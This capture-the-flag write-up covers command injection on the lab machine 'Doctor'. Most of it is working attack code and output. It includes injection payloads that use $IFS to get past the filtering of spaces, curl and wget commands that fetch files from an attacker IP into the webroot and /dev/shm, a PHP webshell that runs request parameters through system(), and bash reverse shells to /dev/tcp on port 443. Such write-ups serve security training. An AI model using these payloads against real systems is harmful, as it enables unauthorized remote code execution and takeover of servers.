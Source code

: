 # Alternate way via shell command injection

I learned this from writeups after the box was retired. Injecting your IP as http://10.10.14.78/test into the Title and Content of the message box would elicit this response on a HTTP listener

```text
root@kali:~/CTF/HTB/Doctor# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [13/Feb/2021 12:45:01] code 404, message File not found
10.10.10.209 - - [13/Feb/2021 12:45:01] "GET /test HTTP/1.1" 404 -

root@kali:~/CTF/HTB/Doctor# nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.14.78] from (UNKNOWN) [10.10.10.209] 37042
GET /test HTTP/1.1
Host: 10.10.14.78
User-Agent: curl/7.68.0
Accept: */*
```

If we injected `http://10.10.14.78/$(id)` instead , we can see that the shell command in between brackets gets evaluated.

```text
10.10.10.209 - - [13/Feb/2021 12:45:45] code 404, message File not found
10.10.10.209 - - [13/Feb/2021 12:45:45] "GET /uid=1001(web) HTTP/1.1" 404 -
```

Now space as a character here won't work. Instead we have to use $IFS which is a typical substitution for space and single quotes for arguments. With this we can ping ourselves with this payload

```text
http://10.10.14.78/$(ping$IFS-c$IFS'2'$IFS'10.10.14.78')
```

and we see this with `tcpdump`

```text
root@kali:~/CTF/HTB/Doctor# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
13:06:13.865334 IP doctors.htb > 10.10.14.78: ICMP echo request, id 1, seq 1, length 64
13:06:13.865355 IP 10.10.14.78 > doctors.htb: ICMP echo reply, id 1, seq 1, length 64
13:06:14.867325 IP doctors.htb > 10.10.14.78: ICMP echo request, id 1, seq 2, length 64
13:06:14.867349 IP 10.10.14.78 > doctors.htb: ICMP echo reply, id 1, seq 2, length 64
```

We can try to upload a file to the default Linux webroot dir, /var/ww/html with

```text
http://10.10.14.78/$(curl$IFS'http://10.10.14.78/test'$IFS'-o'$IFS'/var/www/html/test')
```

Visiting http://10.10.10.209/test in the browser shows

> Testing

## Getting a shell

There are two ways to get a shell here, but only one way allows you to get root eventually. I'll cover the limited way first.

### Shell as www-data

 Since we can write to /var/www/html we can upload a PHP webshell. First to be cautious I uploaded phpinfo() to check whether `system()` was disabled

```text
http://10.10.14.78/$(curl$IFS'http://10.10.14.78/phpinfo.php'$IFS'-o'$IFS'/var/www/html/phpinfo.php')

root@kali:~/CTF/HTB/Doctor# cat phpinfo.php
<?php phpinfo(); ?>
root@kali:~/CTF/HTB/Doctor# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [13/Feb/2021 13:25:48] "GET /phpinfo.php HTTP/1.1" 200 -
10.10.10.209 - - [13/Feb/2021 13:25:48] "GET / HTTP/1.1" 200 -
```

Then visiting http://10.10.10.209/phpinfo.php we check disable_functions and see that system() is not included.

![959b5204574b4489b0239f7fab0f4d8c](Pics/959b5204574b4489b0239f7fab0f4d8c.png)

Then we can upload PHP webshell that uses system()

```text
http://10.10.14.78/$(curl$IFS'http://10.10.14.78/shell.php'$IFS'-o'$IFS'/var/www/html/shell.php')

root@kali:~/CTF/HTB/Doctor# cat shell.php
<?php echo Testing; system($_REQUEST ["cmd"]); ?>
root@kali:~/CTF/HTB/Doctor# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [13/Feb/2021 13:31:24] "GET /shell.php HTTP/1.1" 200 -
10.10.10.209 - - [13/Feb/2021 13:31:24] "GET / HTTP/1.1" 200 -
```

Then we can check http://10.10.10.209/shell.php gives **Testing**. And do a POST to get a reverse shell

```text
POST /shell.php HTTP/1.1
Host: 10.10.10.209
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.78/443 0>&1'
```

And we see

```text
root@kali:~/CTF/HTB/Doctor# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.78] from (UNKNOWN) [10.10.10.209] 35320
bash: cannot set terminal process group (1015): Inappropriate ioctl for device
bash: no job control in this shell
www-data@doctor:/var/www/html$
```

Unfortunately no way to escalate since www-data not in adm group and we can't read Web access logs to discover creds

```text
www-data@doctor /home/web $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nor can we plant a Webshell in the Webroot dir for user web to trigger it

```text
www-data@doctor /home/web/blog$ ls -lah
total 16K
drwxr-xr-x  3 web web 4,0K Sep 22 11:29 .
drwxr-xr-x  6 web web 4,0K Feb 13 06:19 ..
drwxr--r-- 10 web web 4,0K Feb 13 07:00 flaskblog
-rwxr--r--  1 web web  106 Aug 18 12:56 run.py
www-data@doctor /home/web/blog$ cd flaskblog/
bash: cd: flaskblog/: Permission denied
```

### Shell as Web

Alternately we can upload a Bash reverse shell script

```text
root@kali:~/CTF/HTB/Doctor# cat shell.sh
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.78/443 0>&1"
```

This can downloaded on the target to either

1. /dev/shm
2. /var/www/html
3. /var/tmp
4. /tmp

All should work but the first two are preferred because unlike the temp directories they're not partitioned by user.

Then we can trigger them with

```text
http://10.10.14.78/$(wget$IFS'http://10.10.14.78/shell.sh'$IFS'-O'$IFS'/dev/shm/shell.sh')
http://10.10.14.78/$(bash$IFS'/dev/shm/shell.sh')
```

To get a shell as web

```text
root@kali:~/CTF/HTB/Doctor# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.78] from (UNKNOWN) [10.10.10.209] 35614
bash: cannot set terminal process group (849): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$
```

